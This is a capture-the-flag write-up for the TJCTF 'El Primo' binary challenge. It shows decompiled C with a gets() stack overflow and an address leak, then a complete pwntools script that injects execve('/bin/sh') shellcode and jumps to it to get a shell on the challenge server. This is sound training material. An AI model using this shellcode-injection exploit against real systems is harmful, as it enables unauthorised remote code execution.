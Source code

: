 # El Primo

> My friend just started playing Brawl Stars and he keeps raging because he can't beat El Primo! Can you help him?
>
> nc p1.tjctf.org 8011

## Description

Let's decompile the binary with Ghidra.

```c
undefined4 main(void)
{
  char local_30 [32];
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("What\'s my hard counter?");
  printf("hint: %p\n",local_30);
  gets(local_30);
  return 0;
}
```

We get a possible buffer overflow with the `gets` function, and the `printf` leaks the address of the buffer. We check the security of the binary, and surprisingly, NX is disabled. 

## Solution

As NX is disabled, we can include a shellcode in the buffer and jump there. The only thing that I had to do in addition was to preserve the value of `ebp` on the stack (otherwise I had a segfault when leaving the function), but then its value is known once we know the address of the buffer.

```python
from pwn import *

sh = remote('p1.tjctf.org', 8011)

shellcode = asm(shellcraft.i386.linux.execve('/bin/sh'))
print(len(shellcode))

print(sh.recvuntil("hint: ").decode())
addr = sh.recvline().decode()
buf_addr = int(addr, 16)
print(hex(buf_addr))
print(addr)

ebp_value = buf_addr + 0x40

payload = shellcode + b"\x00"*(32-len(shellcode)) + p32(ebp_value) + b'a'*24 + p32(buf_addr)

sh.sendline(payload)
sh.interactive()
```

Flag: `tjctf{3L_PR1M0O0OOO!1!!}`
